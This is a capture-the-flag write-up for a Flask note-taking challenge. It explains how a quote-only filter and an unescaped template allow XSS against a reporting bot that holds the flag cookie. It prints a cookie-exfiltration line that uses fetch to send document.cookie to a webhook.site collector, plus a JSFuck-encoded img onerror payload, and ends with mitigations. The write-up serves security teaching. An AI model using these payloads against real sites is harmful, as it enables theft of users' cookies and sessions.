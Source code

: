 # Web Notesy Challenge Write-up - SulyCyberCon #2025

## Challenge Overview
This was a web challenge featuring a note-taking application with a reporting feature. The goal was to exploit an XSS vulnerability combined with a bot carrying the flag in its cookies.

## Technical Analysis

### Application Components
1. Flask web application for creating and viewing notes
2. Content filtering system that blocks quotes (`'`, `"`, `` ` ``)
3. Report feature with a Selenium bot that visits reported URLs
4. Flag stored in bot's cookies

## Vulnerability Discovery

### 1. Content Validation
The application implements basic filtering in `app.py`:
```python
def is_safe_content(content):
    decoded_content = unquote(content)
    if re.search(r'[\'"`]', decoded_content, re.IGNORECASE):
        return False
    return True
```
This only blocks quotes but allows other HTML tags and JavaScript execution.

### 2. Unsafe Content Rendering
In `view_note.html`, content is rendered without escaping:
```html
<p>{{ note['content'] | safe }}</p>
```

### 3. Bot Behavior
The bot (`bot.py`) follows a specific sequence:

```python
def bot_runner(link):
    client.get("http://127.0.0.1:1337")
    cookie = {
        "name": "FLAG",
        "value": open('/flag.txt').read().strip(),
        "domain": "127.0.0.1",
        "path": "/"
    }
    client.add_cookie(cookie)
    client.get(link)
```
## Exploitation Steps

### 1. Setting Up Request Catcher
- Instead of setting up a server, we use [webhook.site](https://webhook.site/)
- This provides a free URL to capture incoming HTTP requests
- Perfect for receiving exfiltrated data from XSS payloads

### 2. Bypassing Quote Filters with JSFuck
1. Create base payload to exfiltrate cookies:
   ```javascript
   fetch("https://webhook.site/xxxxxx/xxxxxx?c="+btoa(document.cookie));
   ```

2. Convert payload using [JSFuck](https://jsfuck.com/)
   - JSFuck converts JavaScript code to code using only 6 characters: `[]()!+`
   - This effectively bypasses quote filters since it doesn't use any quotes

3. Create the final XSS payload:
   ```html
   <img src=x onerror=[][(![]+[])<snip>...<snip>[+!+[]]]>
   ```
   Note: The actual JSFuck output is much longer but achieves the same result

### 3. Executing the Attack
1. Create a new note with the JSFuck XSS payload
2. Get the note's unique URL
3. Submit URL to the report feature
4. Monitor webhook.site dashboard

### 4. Getting the Flag
When the bot visits our note:
1. Flag cookie is set
2. XSS payload executes
3. Cookie is base64 encoded and sent to webhook.site
4. Decode the base64 parameter from the received request to get the flag

## Why This Works
1. Quote filter bypass:
   - JSFuck uses only `[]()!+` characters
   - No quotes needed for JavaScript execution
   
2. Cookie exfiltration:
   - Bot adds flag cookie before visiting our URL
   - Cookie isn't marked HttpOnly
   - JavaScript can access and exfiltrate it

## Mitigation
To prevent this attack:
1. Implement proper HTML escaping
2. Remove `| safe` from templates
3. Set HttpOnly flag on sensitive cookies
4. Implement Content Security Policy (CSP)
5. Use better input sanitization beyond just filtering quotes

## Conclusion
This challenge demonstrated:
- Creative ways to bypass character filters using JSFuck
- Importance of proper XSS mitigation
- Value of free tools like webhook.site for CTF solving
- Why HttpOnly flags are crucial for sensitive cookies


